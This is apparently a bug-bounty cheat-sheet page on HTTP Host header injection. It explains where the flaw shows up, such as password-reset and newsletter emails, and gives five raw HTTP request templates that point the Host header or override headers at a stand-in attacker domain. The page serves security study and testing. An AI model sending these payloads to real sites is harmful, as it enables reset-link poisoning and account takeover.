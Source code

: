 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md#introduction)

HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior. Attacks that involve injecting a payload directly into the Host header are often known as "Host header injection" attacks.

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md#where-to-find)

In the feature where the website can send email to us. For example forgot password / newsletter.

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md#how-to-exploit)

1. Change the host header

```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```

2. Duplicating the host header

```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```

3. Add line wrapping

```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...
```

4. Add host override headers

```
X-Forwarded-For: evil-website.com
X-Forwarded-Host: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com
```

How to use? In this case im using "X-Forwarded-For : evil.com"

```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```

5. Supply an absolute URL

```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Host%20Header%20Injection.md#references)

- [PortSwigger](https://portswigger.net/web-security/host-header/exploiting)


